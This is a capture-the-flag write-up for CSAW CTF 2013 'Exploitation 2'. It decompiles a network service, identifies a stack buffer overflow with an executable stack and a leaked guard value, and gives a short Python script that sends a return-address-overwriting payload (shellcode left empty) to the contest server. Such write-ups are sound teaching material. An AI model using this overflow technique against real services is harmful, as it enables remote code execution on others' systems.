 ```yaml
---
layout: post
ctf: "CSAW CTF 2013"
title:  "Exploit 200 (Exploitation 2)"
---
```


Source were not provided, but with IDA and Hex-Ray we can get the following pseudocode:

```c

int __cdecl handle(int fd)
{
  int result; // eax@1
  unsigned int v2; // eax@1
  char buf; // [sp+1Ch] [bp-80Ch]@1
  char v4; // [sp+81Bh] [bp-Dh]@1
  int v5; // [sp+81Ch] [bp-Ch]@1

  v5 = 0;
  memset(&buf, 0, 0x800u);
  v2 = time(0);
  srand(v2);
  secret = rand();
  v5 = secret;
  *(_DWORD *)&buf = &buf;
  send(fd, &buf, 4u, 0);
  send(fd, &v5, 4u, 0);
  send(
    fd,
    "Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:",
    0x63u,
    0);
  recv(fd, &buf, 0x1000u, 0);
  v4 = 0;
  result = secret;
  if ( v5 != secret )
  {
    close(fd);
    exit(0);
  }
  return result;
}

```

First thing to note is that `recv` read `0x1000` bytes of data into a buffer of `0x800`. We can use this to rewrite stack data. The overflow is big enough to rewrite the return address.

By running `readelf -l exploit2` we get `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`, so the stack is executable (E flag in RWE).

All we need to do is to send our favorite shellcode and rewrite the return adresse to jump on our shellcode at the buffer location. The buffer location is sent by the application (`send(fd, &buf, 4u, 0);`).

The last thing to note is the `secret` variable. It is use to hold a random number and its value is copied into `v5`. If the value of `v5` changed after we send our payload, the program exit. Therefor, we need to keep the same value when we rewrite the stack since `v5` is before the buffer. Luckily, the secret value is sent before `recv`, so we can write it in our payload.

Our final exploit code was the following:

```python

shellcode = ''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.212', 31338))

buf_size = 0x800
buf_addr = s.recv(4)
secret = s.recv(4)
s.recv(1024)

payload = shellcode + '\x90' * (buf_size-len(shellcode)) + secret + '\x90' * 12 + buf_addr

s.send(payload)

```
